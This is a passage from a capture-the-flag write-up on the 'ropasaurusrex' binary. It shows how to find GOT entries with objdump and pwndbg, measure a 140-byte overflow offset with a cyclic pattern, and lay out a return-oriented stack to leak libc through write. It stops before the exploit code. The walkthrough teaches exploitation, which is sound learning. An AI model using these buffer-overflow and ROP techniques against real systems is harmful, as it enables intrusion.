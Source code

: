 ```shell
objdump -d -M intel ./ropasaurusrex | grep write
```

Note that founding addresses of `GOT` is even easier in gdb:

```assembly
pwndbg> got

GOT protection: No RELRO | GOT functions: 4

[0x8049610] __gmon_start__ -> 0x8048302 (__gmon_start__@plt+6) ◂— push   0 /* 'h' */
[0x8049614] write@GLIBC_2.0 -> 0x8048312 (write@plt+6) ◂— push   8
[0x8049618] __libc_start_main@GLIBC_2.0 -> 0xf7df4e30 (__libc_start_main) ◂— call   0xf7f132c9
[0x804961c] read@GLIBC_2.0 -> 0x8048332 (read@plt+6) ◂— push   0x18
pwndbg>
```

#### cyclic

To check how deep are we in the stack we can use `pwn cyclic -n 4 200 | ./ropasaurusrex` which generates a pattern of 4 bytes, 200 chars long (since we are in a 32 bit environment, otherwise we would need a 8 bytes pattern). Then we check with gdb what section of the pattern gets into the instruction pointer (for e.g. gdb would print `Invalid address at 0x6261616b`), and then we can actually see how long must be our padding, by running:

```sh
❯ cyclic -n 4 -l 0x6261616b
140
```

#### leaking `libc`

Since the binary is x86, we need to put call arguments on the stack. We need the following stack layout:

| Before / After                                               |
| ------------------------------------------------------------ |
| ...                                                          |
| **sEBP** / junk                                              |
| **sEIP** / `write` in `PLT` (**what we want to execute**)    |
| Frame of caller / cleaner gadget (cleans up the next three cells and puts a `ret` in order to jump at the address that follows the three stack cells just cleared, which is the address of the `main` |
| Frame of caller / arg #1 (1st argument of what we want to execute, the `fd` of the `write` target) |
| Frame of caller / arg #2 (2nd argument of what we want to execute, what we want to write to `stdout`) |
| Frame of caller / arg #3 (3rd argument of what we want to execute, how much to write) |
| Frame of caller / `main` address (**return address** after that the gadget cleans the stack) |
| ...                                                          |

Code for that:

